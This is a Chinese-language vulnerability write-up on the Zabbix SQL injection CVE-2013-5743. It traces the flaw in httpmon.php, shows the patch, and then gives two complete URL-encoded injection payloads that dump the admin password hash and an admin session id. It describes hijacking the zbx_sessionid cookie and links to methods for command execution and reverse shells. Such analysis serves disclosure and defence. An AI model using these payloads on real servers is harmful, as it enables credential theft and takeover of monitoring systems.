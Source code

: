 # Zabbix SQL Injection/RCE – CVE-2013-5743

from:[https://www.corelan.be/index.php/2013/10/04/zabbix-sql-injectionrce-cve-2013-5743/](https://www.corelan.be/index.php/2013/10/04/zabbix-sql-injectionrce-cve-2013-5743/)

0x00 背景
-------

* * *

该漏洞于2013年9月11号提交，9月23号得到确认，10月2号发布补丁。

新出的0day，可以通过sql注入直接进入后台，并执行系统命令。

该漏洞已有metasploit利用模块，请使用Zabbix的公司注意及时打补丁。

0x01 利用细节
---------

* * *

该漏洞存在于httpmon.php脚本中，未登录用户也可访问。

这是由于Zabbix预先设定了一个guest用户，未登录用户都被设定为guest用户的访问权限。

如果guest用户被禁用，将不能访问httpmon.php脚本，利用该漏洞。

可以在管理员的管理面板中禁用guest用户。

从下图中可以看出来applications参数存在sql注入。

![enter image description here](http://drops.javaweb.org/uploads/images/a30efbf8b72e10cc1231bdae40d0f18f1506ba2c.jpg)

查看源代码：

```
foreach ($_REQUEST['applications'] as $application) { 
     add2favorites('web.httpmon.applications', $application); 
     }

```

进入了$application变量中，跟踪add2favorites函数：

```
function add2favorites($favobj, $favid, $source = null) { 
     $favorites = get_favorites($favobj); 
     foreach ($favorites as $favorite) { 
          if ($favorite['source'] == $source && $favorite['value'] == $favid) { 
          return true; 
          } 
     } 
     DBstart(); 
     $values = array( 
          'profileid' => get_dbid('profiles', 'profileid'), 
          'userid' => CWebUser::$data['userid'], 
          'idx' => zbx_dbstr($favobj), 
          'value_id' => $favid,
          'type' => PROFILE_TYPE_ID 
);

```

进入$values数组的value_id中，再往下跟踪就可以发现变量没有经过任何过滤进入到sql语句中：

```
return DBend(DBexecute('INSERT INTO profiles ('.implode(', ', array_keys($values)).') VALUES ('.implode(', ', $values).')'));

```

最新，Zabbix的补丁：

```
Index: frontends/php/include/profiles.inc.php
===================================================================
--- frontends/php/include/profiles.inc.php  (revision 38884)
+++ frontends/php/include/profiles.inc.php  (working copy)
@@ -148,9 +148,9 @@
            'profileid' => get_dbid('profiles', 'profileid'),
            'userid' => self::$userDetails['userid'],
            'idx' => zbx_dbstr($idx),
-           $value_type => ($value_type == 'value_str') ? zbx_dbstr($value) : $value,
-           'type' => $type,
-           'idx2' => $idx2
+           $value_type => zbx_dbstr($value),
+           'type' => zbx_dbstr($type),
+           'idx2' => zbx_dbstr($idx2)
        );
        return DBexecute('INSERT INTO profiles ('.implode(', ', array_keys($values)).') VALUES ('.implode(', ', $values).')');// string value prepearing

if (isset($DB['TYPE']) && $DB['TYPE'] == ZBX_DB_MYSQL) {
    function zbx_dbstr($var) {
        if (is_array($var)) {
            foreach ($var as $vnum => $value) {
                $var[$vnum] = "'".mysql_real_escape_string($value)."'";
            }
            return $var;
        }
        return "'".mysql_real_escape_string($var)."'";
    }

```

变量处理经过了一层mysql_real_escape_string函数的过滤。

在上面那个漏洞中，下面的语句可以读取管理员的用户名与密码md5的hash值：

```
http://zabbix.server/zabbix/httpmon.php?applications=2%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28%28select%28select%20concat%28cast%28concat%28alias,0x7e,passwd,0x7e%29%20as%20char%29,0x7e%29%29%20from%20zabbix.users%20LIMIT%200,1%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29

```

![enter image description here](http://drops.javaweb.org/uploads/images/1b66b17489b92d9fed90614f4160e28f2ed4e042.jpg)

成功获取，但是如果管理员的密码过于复杂，md5碰撞不出来明文的怎么办呢？

发现Zabbix的数据库中还保存了用户的session值，它们似乎都不会失效，除非用户点击了退出登录。

下图展示了数据库中sessions表保存的内容：

![enter image description here](http://drops.javaweb.org/uploads/images/d37d37a97477e1c7dab9c47141e32ca006d441f2.jpg)

那我们直接注入获取管理员的session值，直接登录吧，无需碰撞md5的hash了。

```
http://zabbix.server/zabbix/httpmon.php?applications=2%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28%28select%28select%20concat%28cast%28concat%28sessionid,0x7e,userid,0x7e,status%29%20as%20char%29,0x7e%29%29%20from%20zabbix.sessions%20where%20status=0%20and%20userid=1%20LIMIT%200,1%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29

```

![enter image description here](http://drops.javaweb.org/uploads/images/5e69a386efec1e3a819e236776254de64d2d6daa.jpg)

用获取到的session替换cookie中zbx_sessionid中的值：

![enter image description here](http://drops.javaweb.org/uploads/images/ede4ce6c2c317905612b7e69651c22cd1fedac9f.jpg)

然后就登陆成功：

![enter image description here](http://drops.javaweb.org/uploads/images/b2a6e23b52369b3d89fc4c5c5def9eb95057b299.jpg)

管理员进入后可以命令执行具体方法wooyun上已经有了：

[WooYun: sohu的zabbix,可导致内网渗透](http://www.wooyun.org/bugs/wooyun-2013-023089)

也可以直接反弹shell执行命令方便很多，具体姿势可以参考：

[反弹shell的十种姿势](http://zone.wooyun.org/content/5064)